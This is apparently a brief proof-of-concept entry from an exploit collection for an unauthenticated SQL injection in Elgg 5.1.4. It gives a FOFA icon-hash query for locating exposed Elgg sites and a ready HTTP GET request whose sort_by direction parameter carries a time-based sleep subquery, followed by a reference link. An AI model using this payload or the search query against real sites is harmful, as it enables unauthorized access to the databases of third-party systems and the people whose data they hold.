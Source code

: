 ## Elgg 5.1.4 Sql Injection

## fofa
```
icon_hash="413602919"
```

## poc
```
GET /members?sort_by%5Bproperty%5D=name&sort_by%5Bproperty_type%5D=metadata&sort_by%5Bdirection%5D=desc%2c(select*from(select(sleep(6)))a)HTTP/1.1
Host: 
```

## Ref

- https://github.com/4rdr/proofs/blob/main/info/Elgg_unauth_SQLi_5.1.4.md